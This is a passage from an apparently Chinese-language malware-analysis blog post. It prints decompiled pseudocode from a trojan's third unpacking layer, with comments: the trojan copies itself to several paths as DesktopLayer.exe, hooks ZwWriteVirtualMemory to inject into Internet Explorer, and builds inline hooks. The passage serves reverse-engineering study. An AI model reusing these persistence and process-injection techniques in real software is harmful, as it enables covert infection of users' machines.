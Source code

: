 ![](https://raw.githubusercontent.com/lichao890427/lichao890427.github.io/master/_res/old_blog_65.png)  
![](https://raw.githubusercontent.com/lichao890427/lichao890427.github.io/master/_res/old_blog_66.png)

## 解密第三层

&emsp;&emsp;以上做的所有工作都是为了获取入口点，dump出来的文件带mediaplayer图标，185k，入口代码：
```
void __usercall __noreturn start(int a1@<eax>, char *a2@<edx>, int a3@<ecx>, unsigned int a4@<ebp>)
{
//….仍然在修复导入表
	  if ( checkbrowserexist("C:\\Program Files (x86)\\Internet Explorer\\iexplore.exe", 0x400u) == 1 )
	  {
		v4 = createmutex("KyUffThOkYwRRtgPP");
		if ( v4 )
		{
		  destroymutex(v4);
		  v4 = HANDLE_FLAG_INHERIT;
		}
		if ( v4 == HANDLE_FLAG_INHERIT )
		{
		  v5 = GetModuleFileNameA(0, selffile, 0x104u);
		  makecstring((BYTE *)selffile, v5);
		  if ( CopyAndRunTrojan(selffile) == 1 )//传播自身到以下路径：
	//%CommonProgramFiles%/Microsoft/DesktopLayer.exe
	//%HOMEDRIVE%%HOMEPATH%/Microsoft/DesktopLayer.exe
	//%APPDATA%/Microsoft/DesktopLayer.exe
	//%SYSTEM%/Microsoft/DesktopLayer.exe
	//%TMP%/Microsoft/DesktopLayer.exe
//%ProgramFiles%/Microsoft/DesktopLayer.exe
			ExitProcess(0);
		  if ( GetNtdllFunction() == 1 )//实现获取函数地址，以便给注入到IE的木马使用
		  {
			hookZwWriteVirtualMemory();//这里没有直接inline hook入口点，而是跳了5条指令
			CreateProcess((LPSTR)"C:\\Program Files (x86)\\Internet Explorer\\iexplore.exe", 1);
//通过上下逻辑可知CreateProcess触发NtWriteVirtualMemory
			unhookZwWriteVirtualMemory();
		  }
		}
	  }
	  ExitProcess(0);
	}   

	int __stdcall makeinlinehook(LPVOID procaddr, LPVOID hookaddr, int a4)
{
  if ( VirtualProtect(procaddr, 0xAu, 0x40u, &flOldProtect) )
  {
    v3 = skipninst(procaddr, 5u);//实现了小型的汇编指令长度引擎
    hookoff = v3;
    dwSize = v3 + 10;
    shell = VirtualAlloc(0, v3 + 10, 0x1000u, 0x40u);
    if ( shell )
    {
      v12 = shell;
      *(_DWORD *)shell = procaddr;
      *((_BYTE *)shell + 4) = hookoff;
      v5 = (int)shell + 5;
      memcpy(procaddr, (char *)shell + 5, hookoff);
      v6 = hookoff + v5;
      *(_BYTE *)v6 = 0xE9u;
      *(_DWORD *)(v6 + 1) = (_BYTE *)procaddr - (_BYTE *)v12 - 10;
      *(_BYTE *)procaddr = 0xE9u;
```